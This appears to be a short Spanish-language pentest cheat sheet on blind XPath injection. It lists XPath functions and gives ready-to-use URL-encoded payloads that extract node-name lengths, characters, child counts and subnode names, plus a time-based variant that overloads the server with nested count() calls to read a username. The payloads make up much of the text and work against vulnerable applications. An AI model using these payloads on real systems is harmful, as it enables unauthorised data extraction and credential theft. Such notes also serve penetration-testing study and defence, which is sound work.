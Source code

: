 ### INTRO

Funciona con el mismo criterio de las BLIND SQLI.

### Funciones

| función | uso |
|---|---|
|Name() | Puede ser llamada en cualquier nodo y nos da el nombre del nodo    |
|Substring () | nos permite exfiltrar el nombre de un nodo un caracter a la vez  |
|string-length() | nos permite determinar el largo del nombre de un nodo |
|count() | Devuelve el número de hijos que tiene un nodo |

### Explotaciones

#### Extraer el length de un nodo

    invalid'+or+string-length(name(/*[1]))=1+and+'1'='1
  
#### Extraer caracteres de un nodo

    invalid'+or+substring(name(/*[1]),<index_del_nombre>,1)='a'+and+'1'='1

#### Extraer cantidad de subnodos 

Una vez que tenemos el nombre de un nodo tenemos podemos extraer la cantidad de subnodos:

    invalid'+or+count(/<nodo>/*)=2+and+'1'='1


#### Extrayendo el nombre de un subnodo:

Una vez que sabemos la cantidad de subnodos y tenemos el nodo principal podemos empezar a realizar los pasos anteriormente agregando el index del subnodo: [1]

    invalid+or+substring(name(/<nodo>/*[1]),1,1)='a'+and+'1'='1
  
---

### Time Based blind xpath

En los casos donde la respuesta no pueda darnos un indicio de funcionamiento, aunque no hay una funcion SLEEP, tenemos formas de sobrecargar el procesamiento haciendo que la respuesta se vuelva más lenta y de esta manera saber si se están procesando los datos. 

Para esto usaremos de manera recursiva la función COUNT haciendo que se itere el documento reiteradas veces.

    invalid'+or+substring(/users/user[1]/username,1,1)='a'+and+count((//.)[count((//.))])+and+'1'='1

